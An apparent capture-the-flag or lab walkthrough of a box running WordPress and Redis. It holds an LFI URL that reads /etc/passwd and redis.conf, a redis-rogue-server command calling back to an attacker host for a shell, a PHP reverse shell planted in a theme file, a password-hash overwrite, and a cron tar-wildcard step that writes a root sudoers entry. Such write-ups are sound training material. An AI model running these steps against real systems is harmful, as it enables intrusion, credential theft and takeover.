 ### Enumeration
```
IP=192.168.163.166
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80,6379 -A $IP
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
	- nc -nv $IP 22
		- SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
- 80
	- Apache httpd 2.4.38 ((Debian))
	- nc -nv $IP 80
		- http
- 6379
	- Redis key-value store
	- nc -nv $IP 6379
		- redis
### Foothold
- 6379
	- redis-cli -h $IP
		- info
			- NOAUTH Authentication required.
			- auth Ready4Redis?
				- OK
	- python3 redis-rogue-server.py --rhost 192.168.163.166 --lhost 192.168.45.195 --lport 21 --passwd='Ready4Redis?'
		- ![[Pasted image 20240718145453.png]]
- 80
	- Default landing page
		- ![[Pasted image 20240718135944.png]]
	- Versions
		- WordPress version 5.7.2
	- Directory Brute force
		- dirsearch -u http://$IP
			- /index.php
			- /license.txt
			- /readme.html
			- /wp-config.php
			- /wp-admin/
			- /wp-admin/install.php
			- /wp-content/
			- /wp-includes/
		- sudo wpscan --url http://192.168.163.166 --enumerate --api-token API_KEY
			- http://192.168.163.166/wp-content/uploads/
			- http://192.168.163.166/wp-cron.php
			- WordPress version 5.7.2
				- sqli
				- XSS
			- twentytwentyone 1.3 theme
			- plugin
				- site-editor 1.1.1
					- LFI
						- exploit-db 44340
						- http://192.168.163.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
							- Writes /etc/passwd
							- alice
							- root
						- Checked wp-config.php
							- nothing interesting
						- /etc/redis/redis.conf
							- Security section
								- requirepass Ready4Redis?
			- Users
				- admin
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- redis
	- id
		- uid=107(redis) gid=114(redis) groups=114(redis)
	- sudo -l
		- effective uid is not 0, is sudo installed setuid root?
		- ls -la $(which sudo)
			- /usr/bin/sudo
			- /usr/bin/sudo -l
				- sudo: effective uid is not 0, is /usr/bin/sudo on a file system with the 'nosuid' option set or an NFS file system without root privileges?
		- might be nothing
	- uname -a
		- Linux readys 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- /home  not readable
		- /etc/passwd
			- alice
			- root
	- netstat -ano
		- Active ports
			- 3306
	- linpeas
		- Possible Exploits
			- PTRACE_TRACEME
		- Interesting Files
			- cron
				- `*/3 * * * * root /usr/local/bin/backup.sh`
			- /var/www/html/wp-config.php
				- karl:Wordpress1234
	- SQL
		- mysql -u karl -p
			- Wordpress1234
			- Dbs
				- wordpress
					- wp_users
						- admin:`$P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0
					- https://www.forge12.com/en/wordpress-password-generator/
						- admin
					- `UPDATE wp_users SET user_pass ='$P$B/9HfHeP45he1c4MTP3jzJ3f8jCXj/1' WHERE user_login='admin';
					- Updated password
					- Now we can login to wp portal
					- Go into theme editor. Add php rev shell
						- ![[Pasted image 20240718154734.png]]
					- Navigate to 192.168.163.166/wp-content/themes/twentytwentyone/404.php
						- now we have shell as alice
				- information_schema
- alice
	- id
		- uid=1000(alice) gid=1000(alice) groups=1000(alice)
	- sudo -l
		- need password
	- linpeas
		- apache running under me but rooted?
		- cront
			- `*/3 * * * * root /usr/local/bin/backup.sh`
				- cd /var/www/html
				- `tar -cf /opt/backups/website.tar *
					- Tar wild card exploit might work
					- Follow these steps
						- ![[Pasted image 20240718155448.png]]
					- Instead added to sudoers
						- cat <<'EOT'> /var/www/html/privesc.sh
						- echo 'alice ALL=(root) NOPASSWD: ALL' > /etc/sudoers
						- EOT
					- chmod +x privesc.sh
				- Then sudo su
### Credentials
- karl:Wordpress1234
### Lessons Learned